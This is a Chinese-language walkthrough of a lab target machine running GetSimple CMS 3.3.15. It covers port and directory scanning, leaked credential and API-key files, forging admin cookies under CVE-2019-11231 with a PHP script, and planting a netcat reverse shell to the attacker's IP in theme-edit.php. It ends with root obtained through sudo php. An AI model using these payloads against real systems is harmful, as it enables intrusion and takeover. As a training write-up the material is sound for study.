





# GetSimple

> 靶机 IP : 10.129.42.249
>
> 攻击机 的 VPN IP : 10.10.15.188

## 信息收集

### 端口扫描

进行全端口扫描：

```sh
┌─[yh4x0r@parrot]─[~/Desktop/project/getsimple/scan]
└──╼ $nmap -p- --min-rate 1000 -T4 10.129.42.249 -vvv
Nmap scan report for 10.129.42.249
Host is up, received syn-ack (0.23s latency).
Scanned at 2026-09-22 16:05:17 CST for 117s
Not shown: 63022 closed tcp ports (conn-refused), 2511 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 117.11 indexs
```

对指定端口进行脚本扫描与服务版本扫描：

```sh
┌─[yh4x0r@parrot]─[~/Desktop/project/getsimple/scan]
└──╼ $nmap -p 22,80 -sC -sV 10.129.42.249 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-22 16:11 CST
Nmap scan report for 10.129.42.249
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.50 indexs
```

| 端口 | 服务版本                                                     |
| ---- | ------------------------------------------------------------ |
| 22   | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) |
| 80   | Apache httpd 2.4.41 ((Ubuntu))                               |

系统指向linux系统的ubuntu，简单推测一下Ubuntu版本：

```
搜索："OpenSSH 8.2p1 Ubuntu 4ubuntu0.1" 
这个为精确搜索
```



指向`focal`。

```
搜索："Apache httpd 2.4.41 ((Ubuntu))"
```





也指向 `focal`，推测ubuntu的版本号为 20.04，**这只是具有高置信度的假设**。

> 补充的知识：
>
> 每个Ubuntu 发行版 都会 打包特定的一组版本，通过特定的组合可以反查发行版
>
> 1:8.2p1-4ubuntu0.1
>
> ​	1 --- epoch (忽略)
> ​	8.2p1 --- 上游原始版本
> ​	4 --- 从 Debian 修订号
> ​	ubuntu0 --- focal 开发期 Ubuntu 自己的修订计数为 0
> ​	1 --- focal 发布后的 第 1 次 安全/修复上传
>
> 2.4.41-4ubuntu3.23
>
> ​	2.4.41 --- 上游版本
> ​	4 --- 从 Debian 继承的修订号	
> ​	ubuntu3 --- focal 开发期 Ubuntu 自己的修订计数为 3
> ​	.23 --- focal 发布后的 第 23 次安全/修复上传
>
> 公式：[epoch:]上游版本-打包修订
>
> ubuntu 每次推出新的版本时，都会给新的版本取一个代号，这些代号大多数为动物的名字。

### web足迹收集

```sh
gobuster dir -u http://10.129.42.249/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20
```

先让它枚举，nmap的脚本扫描出`robots.txt`，`robots.txt`内禁止爬虫爬取`/admin/`，我们访问`/admin/`，发现它是一个登录界面。`gobuster`枚举完成:

```sh
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.42.249/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.129.42.249/admin/]
/backups              (Status: 301) [Size: 316] [--> http://10.129.42.249/backups/]
/data                 (Status: 301) [Size: 313] [--> http://10.129.42.249/data/]
/index.php            (Status: 200) [Size: 5485]
/plugins              (Status: 301) [Size: 316] [--> http://10.129.42.249/plugins/]
/robots.txt           (Status: 200) [Size: 32]
/server-status        (Status: 403) [Size: 278]
/sitemap.xml          (Status: 200) [Size: 431]
/theme                (Status: 301) [Size: 314] [--> http://10.129.42.249/theme/]
Progress: 4751 / 4751 (100.00%)
===============================================================
Finished
===============================================================
```

`/admin/和robots.txt`我们已经探索过了，对状态码为`200/301`的目录或文件进行探索，在`/data/users/admin.xml`发现一组用户数据：

```xml
<item>
    <USR>admin</USR>
    <NAME/>
    <PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
    <EMAIL>admin@gettingstarted.com</EMAIL>
    <HTMLEDITOR>1</HTMLEDITOR>
    <TIMEZONE/>
    <LANG>en_US</LANG>
</item>
```

在`/data/pages/index.xml`发现这是一个cms网站，名字就叫`getsimple`：

```xml
<item>
<pubDate>Tue, 09 Feb 2021 09:53:11 +0000</pubDate>
<title>Welcome to GetSimple!</title>
<url>index</url>
<meta>getsimple, easy, content management system</meta>
<metad/>
<menu>Home</menu>
<menuOrder>1</menuOrder>
<menuStatus>Y</menuStatus>
<template>template.php</template>
<parent/>
<content>
&lt;p&gt;Thank you for using GetSimple CMS. This is your homepage, so please change this text to be what you want.&lt;/p&gt; &lt;ul&gt; &lt;li&gt;&lt;a href=\&quot;http://get-simple.info/docs/\&quot;&gt;GetSimple CMS Documentation&lt;/a&gt; &lt;ul&gt; &lt;li&gt;&lt;a href=\&quot;http://get-simple.info/docs/theme-creation\&quot;&gt;How to Create a GetSimple Theme&lt;/a&gt;&lt;/li&gt; &lt;/ul&gt; &lt;/li&gt; &lt;li&gt;&lt;a href=\&quot;http://get-simple.info/forums/\&quot;&gt;GetSimple Support Forums&lt;/a&gt;&lt;/li&gt; &lt;/ul&gt; &lt;h2&gt;Header 2&lt;/h2&gt; &lt;p&gt;Lorem ipsum &lt;em&gt;dolor sit amet&lt;/em&gt;, &lt;strong&gt;consectetur adipiscing elit&lt;/strong&gt;. Donec &lt;code&gt;this is code&lt;/code&gt; venenatis augue. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Integer vulputate pretium augue.&lt;/p&gt; &lt;h3&gt;Header 3&lt;/h3&gt; &lt;pre&gt;&lt;code class=&quot;language-css&quot;&gt;#header h1 a { display: block; width: 300px; height: 80px; }&lt;/code&gt;&lt;/pre&gt; &lt;h4&gt;Header 4&lt;/h4&gt; &lt;ol&gt; &lt;li&gt;Lorem ipsum dolor sit amet&lt;/li&gt; &lt;li&gt;Consectetur adipiscing elit&lt;/li&gt; &lt;li&gt;Donec ut est risus, placerat venenatis augue&lt;/li&gt; &lt;/ol&gt; &lt;blockquote&gt;A blockquote. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Donec ut est risus, placerat venenatis augue. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos.&lt;/blockquote&gt;
</content>
<private/>
</item>
```

通过搜索得知：`getsimple`是一个开源的。

在`data/cache/2a4c6447379fba09620ba05582eb61af.txt`获取到了版本号：

```
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
```

版本号为`3.3.15`，浏览器搜索是否存在公开漏洞，发现存在一个漏洞编号为：`CVE-2019-11231`的RCE漏洞。

我是跟着这个漏洞分析做的：[CVE-2019-11231](https://ssd-disclosure.com/ssd-advisory-getcms-unauthenticated-remote-code-execution/)

> 前面的 ip 过期了，漏洞评估后面我开了新的IP(10.129.42.249).

## 漏洞评估

`Apache2.4.41` 默认情况下 `allowoverride`指令设置为`None`，导致`data/users/admin.xml`和`data/other/authorization.xml`泄露，`admin.xml`泄露了密码哈希和管理员用户名：

```xml
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
```

`authorization.xml`泄露了`apikey`:

```xml
<apikey>4f399dc72ff8e619e327800f851e9986</apikey>
```

使得攻击者可以针对会话状态进行攻击，以此来绕过身份验证。

绕过身份验证后，在theme-edit.php中插入恶意php代码，点击上传，访问`theme/Innovation/template.php`，就可以实现远程代码执行。

代码位置：`/admin/inc/common.php`:

```php
if (defined('GSUSECUSTOMSALT')) {
	// use GSUSECUSTOMSALT
	$SALT = sha1(GSUSECUSTOMSALT);
} 
else {
	// use from authorization.xml
	if (file_exists(GSDATAOTHERPATH .'authorization.xml')) {
		$dataa = getXML(GSDATAOTHERPATH .'authorization.xml');
		$SALT = stripslashes($dataa->apikey);
	} else {
		if($SITEURL !='' && get_filename_id() != 'install' && get_filename_id() != 'setup' && get_filename_id() != 'update' && get_filename_id() != 'style'){
			die(i18n_r('KILL_CANT_CONTINUE')."<br/>".i18n_r('MISSING_FILE').": "."authorization.xml");
		}
	}
}
```

默认情况下`$salt`就是`authorization.xml`的`apikey`。

```php
if (isset($_COOKIE['GS_ADMIN_USERNAME'])) {
	$cookie_user_id = _id($_COOKIE['GS_ADMIN_USERNAME']);
	if (file_exists(GSUSERSPATH . $cookie_user_id.'.xml')) {
		$datau = getXML(GSUSERSPATH  . $cookie_user_id.'.xml');
		$USR = stripslashes($datau->USR);
		$HTMLEDITOR = $datau->HTMLEDITOR;
		$TIMEZONE = $datau->TIMEZONE;
		$LANG = $datau->LANG;
	} else {
		$USR = null;
	}
} else {
	$USR = null;
}
# GSUSERSPATH 为 /admin/user
```

user 里面只有一个xml文件 (admin.xml)，所以`$USER`为`admin`。

```php
$site_full_name     = 'GetSimple';
$site_version_no    = '3.3.15';
$name_url_clean     = lowercase(str_replace(' ','-',$site_full_name));
$ver_no_clean       = str_replace('.','',$site_version_no);

$cookie_name        = lowercase($name_url_clean) .'_cookie_'. $ver_no_clean; /
echo $cookie_name;
```

`$cookie_name`为`getsimple_cookie_3315`。

代码位于：`admin/inc/cookie_functions.php`

```php
function login_cookie_check() {
	global $cookie_login;
	if(cookie_check()) {
		create_cookie();
	} else {
		$qstring = filter_queryString(array('id'));
		$redirect_url = $cookie_login.'?redirect='.myself(FALSE).'?'.$qstring;
		redirect($redirect_url);
	}
}
function cookie_check() {
	global $USR,$SALT,$cookie_name;
	$saltUSR = $USR.$SALT;
	$saltCOOKIE = sha1($cookie_name.$SALT);
	if(isset($_COOKIE[$saltCOOKIE])&&$_COOKIE[$saltCOOKIE]==sha1($saltUSR)) {
		return TRUE; // Cookie proves logged in status.
	} else { 
		return FALSE; 
	}
}

function create_cookie() {
  global $USR,$SALT,$cookie_time,$cookie_name;
  $saltUSR    = sha1($USR.$SALT);
  $saltCOOKIE = sha1($cookie_name.$SALT);

  gs_setcookie('GS_ADMIN_USERNAME', $USR);   
  gs_setcookie($saltCOOKIE, $saltUSR);
}
```

最终会设置两个cookie，所以我们只需要计算出这两个cookie就可以绕过认证。

## 漏洞利用

```php
<?php
$USR = "admin";
$SALT = "4f399dc72ff8e619e327800f851e9986";
$cookie_name = "getsimple_cookie_3315";
$saltUSR    = sha1($USR.$SALT);
$saltCOOKIE = sha1($cookie_name.$SALT);
echo $saltCOOKIE."=".$saltUSR;
?>
// 4bc774744b09f4bb3746b641176918d9f52ef9b9=93faf1706c6b62a18553fe3cdf4e4c1015c73760
```

伪造的cookie：

```cookie
GS_ADMIN_USERNAME=admin; 4bc774744b09f4bb3746b641176918d9f52ef9b9=93faf1706c6b62a18553fe3cdf4e4c1015c73760
```

利用这个cookie访问`/admin/pages.php`不会重定向到登录界面。



在`/admin/theme-edit.php`插入恶意的php代码：

```php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.188 1234 > /tmp/f");
// 10.10.15.188 为 tun0 的 ip
```

攻击机监听：

```bash
nc -lvnp 1234
```



访问`http://10.129.42.249/theme/Innovation/template.php`：

```bash
┌─[yh4x0r@parrot]─[~/Desktop]
└──╼ $nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.129.42.249 57780
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## 权限提升

```bash
$ sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
$ sudo /usr/bin/php -r "system('/bin/bash -i');"
root@gettingstarted:/var/www/html/theme/Innovation# id
uid=0(root) gid=0(root) groups=0(root)
```

